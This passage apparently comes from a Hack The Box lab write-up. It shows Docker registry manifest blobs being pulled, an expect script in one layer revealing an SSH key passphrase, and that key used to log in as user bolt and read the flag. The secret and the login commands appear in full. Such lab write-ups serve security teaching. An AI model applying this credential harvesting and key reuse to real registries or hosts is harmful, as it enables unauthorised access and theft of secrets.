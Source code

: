```
      },                                                                                                                                              
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:f5029279ec1223b70f2cbb2682ab360e1837a2ea59a8d7ff64b38e9eab5fb8c0"
      },
      {
         "blobSum": "sha256:d9af21273955749bb8250c7a883fcce21647b54f5a685d237bc6b920a2ebad1a"
      },
      {
         "blobSum": "sha256:8882c27f669ef315fc231f272965cd5ee8507c0f376855d6f9c012aae0224797"
      },
      {
         "blobSum": "sha256:f476d66f540886e2bb4d9c8cc8c0f8915bca7d387e536957796ea6c2f8e7dfff"
      }
```

From above I saw the files name which start with `sha256` and downloaded to my local machine as zip file and unzipped it. After all I found interesting folder name with file `01-ssh.ssh`  `sha256_302bfcb3f10c386a25a58913917257bd2fe772127e36645192fa35e4c6b3c66b` and got this as output.

```
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```
this way I got the `passphraase` and `id_rsa` and able to ssh in as bolt.

```
root@gr4n173:~$ ssh -i id_rsa bolt@registry.htb
The authenticity of host 'registry.htb (10.10.10.159)' can't be established.
ECDSA key fingerprint is SHA256:G1J5ek/T6KuCCT7Xp2IN1LUslRt24mhmhKUo/kWWVrs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'registry.htb' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Fri Apr  3 07:54:40 UTC 2020

  System load:  0.0               Users logged in:                1
  Usage of /:   6.1% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 49%               IP address for docker0:         172.17.0.1
  Swap usage:   0%                IP address for br-1bad9bd75d17: 172.18.0.1
  Processes:    157
Last login: Fri Apr  3 06:36:39 2020 from 10.10.14.18
bolt@bolt:~$ whoami
bolt
bolt@bolt:~$ cat user.txt
ytc0yt***************
```
  